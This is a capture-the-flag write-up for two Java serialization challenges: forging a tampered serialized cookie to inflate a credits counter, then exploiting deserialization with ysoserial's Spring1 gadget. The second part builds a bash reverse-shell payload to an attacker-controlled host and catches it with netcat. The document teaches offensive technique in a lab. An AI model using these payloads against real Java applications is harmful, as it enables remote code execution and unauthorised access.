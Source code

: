 # Too Many Credits 1
Okay, fine, there’s a lot of credit systems. We had to put that guy on break; seriously concerned about that dude.
Anywho. We’ve made an actually secure one now, with Java, not dirty JS this time. Give it a whack?
If you get two thousand million credits again, well, we’ll just have to shut this program down.
Even if you could get the first flag, I bet you can’t pop a shell!
http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Serialization.

## Understanding the cookie
On visiting the link we see a page with a counter. On inspecting the cookies we see a base64 string as cookie.

On directly decoding it you get gibberish. This is because its not plain text.
The best way to handle such base64 strings is to decode the string and save it into a file. Use a command like

```echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d w0 >> unknown_file```

Then run file on it to know the actual filetype.
```file unknown_file```
This is will return saying its a gzip file. On extracting we get another file, applying ``file`` on it gives filetype as Java Serialized Object.

The combined command to get the java object from the string

```echo -n H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAAEwAKMkv7UgAAAA== | base64 -d | gzip -d >> java_ser_obj```

## Crafting our payload

So now we know we have to understand how such an Object is structured in order to edit it and increase our credits value
For information about the structure of the object, refer https://www.javaworld.com/article/2072752/the-java-serialization-algorithm-revealed

To view the deserialized payload, we can [Serialization Dumper](https://github.com/NickstaDB/SerializationDumper) tool by NickstaDB

![Deserialized_object](deserialized.png)
We can see that it has a field of Long type which holds the credits count. So its obvious that we have to find and edit that to a two thousand million in order to get the flag.

If you read the structure article you could now anticipate where the value would be in the hexdump and change it appropriately.

Incase you skipped that part, just look for a 3 in the hex and change it.(Its at the very end).The last 16 bytes hold the Long value. We need to change it to a high hex value. We can patch that using an [online hex editor](https://hexed.it/?hl=en)
I am attatching the [patched object](patched_object) for reference

![hexdump](object_hex.png)

After patching it we compress it, base64 encode it and send it as cookie. The entire command to generate payload from the patched object
``` gzip -c patched_object | base64 - ```

This returns the payload string `H4sICBsJe14AA3BhdGNoZWRfb2JqZWN0AFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zz
S/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMFxgAAEBAAdAMaNSAAAA`

Submit this as cookie to see the flag displayed.

# Too Many Credits 2
Even if you could get the first flag, I bet you can't pop a shell!
URL: http://toomanycredits.tamuctf.com

# Solution
This challenge is about Java Deserialization Vulnerability.
[Video]https://www.youtube.com/watch?v=KSA7vUkXGSg explaining the exploit discovered by Chris Frohoff & Gabriel Lawrence


## Finding the payload
Basically we have to craft a java object which when deserialized by the java code in the server starts a remote shell.
An open-source tool named [ysoserial](https://github.com/frohoff/ysoserial) was also developed.

Refer this (https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/) for a better idea how this attack works.

The tool automatially creates payload with the command we wish to execute on the shell obtained. It gives us various payloads to work with, we will have to test each one out to figure out the one that works.

[SerialBrute](https://github.com/NickstaDB/SerialBrute) is a tool that could automate this. It tests out each payload. However we did it manually. However since this looks like a Java web app, you could try out the Spring framework payload first.

To manually generate a payload the following command can be used
``` java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 'ping -n 1 8.8.8.8' | gzip | base64 -w0 ```

This payload will pop a shell and execute the ping command.

To decide on the payload, we have to observe the error returned by the web app when we send the payload. When a particular class required in the payload does not exist on the server, the error message contains the name of the class not found. When all the classes required are present, the error returns as 'No Message Available' in the site.

See below the difference between the error messages returned
![not_found](not_found_class.png "Class_not_found") ![found_all](found_all.png "All Class Available")


## Popping a Remote Shell

So after finding the payload that works, we need to test out the commands that will work. Change 8.8.8.8 to the IP of your server and listen for a ping request using ``` sudo tcpdump icmp ``` on your server.

![ping_request](ping_request.png)

Yay! The command executed. We have RCE. Now we need a remote shell running to interact with and get the flag. You can find a list of payloads to get a remote shell from (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I went with ` bash -i >& /dev/tcp/0.0.0.0/8065 0>&1 ` with 0.0.0.0 replaced with my server IP and listened for connection on my server port 8065.

This is where I got stuck with an issue, the payload I gave didn't execute on the server. So I tried various ones and none of them worked. I took me a while to figure out the issue.

From what I understood the ysoserial generates payloads and gives the entire command string as a single argument to the object created. But if we want to execute complex commands we have to pass each part of the complex commands in an array. This was not an issue with simple commands like ping, wget, ls. But piping and redirection of output won't work. So a modification is needed while generating payloads. This is done in the [ysoserial-modified](https://github.com/pimps/ysoserial-modified) repo. If you didn't understand what I tried to explain here please look up this article (https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html) to get a much clear idea. Also the repo has details as to why the modification was required.

Generating our payload using ysoserial-modified:
```java -jar ysoserial-modified.jar Spring1 bash 'bash -i >& /dev/tcp/x.x.x.x/8065 0>&1' | gzip | base64 -w0```

![final_payload](final_payload.png)

Listening on our server for the incoming connection ```nc -lvp 8065``` we get a shell and the flag from the text file on the remote server

![shell](remote_shell.png)
